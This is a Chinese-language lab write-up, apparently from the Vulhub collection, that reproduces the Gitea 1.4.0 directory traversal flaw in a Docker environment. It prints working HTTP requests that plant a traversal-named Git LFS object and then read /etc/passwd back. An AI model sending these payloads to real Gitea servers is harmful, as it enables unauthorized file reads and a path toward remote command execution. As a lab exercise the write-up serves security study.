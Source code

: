 # Gitea 1.4.0 目录穿越导致命令执行漏洞

## 漏洞描述

Gitea是从gogs衍生出的一个开源项目，是一个类似于Github、Gitlab的多用户Git仓库管理平台。其1.4.0版本中有一处逻辑错误，导致未授权用户可以穿越目录，读写任意文件，最终导致执行任意命令。

参考链接：

- https://security.szurek.pl/gitea-1-4-0-unauthenticated-rce.html
- https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html

## 环境搭建

Vulhub执行如下命令启动启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问`http://you-ip:3000`，将进入安装页面，填写管理员账号密码，并修改网站URL，其他的用默认配置安装即可。（不要修改端口号）

安装完成后，新建一个用户`test`，创建一个公开的仓库，随便添加点文件进去（比如使用选定的文件和模板初始化仓库）：

![image-20220223204543045](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202232045145.png)

然后，需要执行一次`docker-compose restart`重启gitea服务。（原因详见第二个参考链接）

> 如果不重启的话，session是存储在内存里的。只有第一次重启后，才会使用文件session，这一点需要注意。

## 漏洞复现

由于漏洞链整体利用比较复杂，我们只复现文件读取部分，剩余利用方法详见第二个参考链接。

打开gitea，找到刚才创建的公开项目，如`vulhub/repo`，发送如下数据包，添加一个Git LFS对象：

```
POST /test/repo.git/info/lfs/objects HTTP/1.1
Host: your-vps-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 153

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

![image-20220223205223472](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202232052600.png)

然后，访问`http://your-ip:3000/vulhub/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth`，即可看到`/etc/passwd`已被成功读取：

```
GET /test/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth HTTP/1.1
Host: your-vps-ip:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20220223205318090](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202232053193.png)